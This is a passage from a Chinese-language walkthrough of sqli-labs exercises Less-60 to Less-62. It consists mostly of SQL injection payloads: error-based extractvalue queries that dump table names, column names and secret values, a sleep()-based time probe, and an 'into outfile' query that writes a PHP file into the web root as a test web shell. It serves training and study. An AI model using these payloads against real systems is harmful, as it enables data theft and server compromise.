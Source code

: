 爆数据

```sql
?id=0") or extractvalue(1,concat(0x7e,(select group_concat(secret_BG4H) from FJ6S67618K),0x7e))%23
```


## Less-61

测试后台闭合方式

```sql
?id=0')) or 1=1%23
```

爆表、字段

```sql
# 表名 7L3F6QOYU6
?id=0')) or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```

```sql
# 字段 id,sessid,secret_RLGQ,tryy
?id=0')) or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e))%23
```

爆数据

```sql
?id=0')) or extractvalue(1,concat(0x7e,(select group_concat(secret_RLGQ) from 7L3F6QOYU6),0x7e))%23
```


## Less-62

为什么给了130次机会 🤯


测出后台闭合方式

```sql
?id=0') or if(1=1,sleep(5),sleep(5))%23
```

时间盲注？130次时间盲注就是用二分法优化也不够用吧 🤯


试试能不能写个马子进去

```sql
?id=0') union select 1,2,'<?=phpinfo();?>' into outfile'/var/www/html/Less-62/1.php'%23
```

成功

![121](/medias/sqli-labs/121.png)


## Less-63

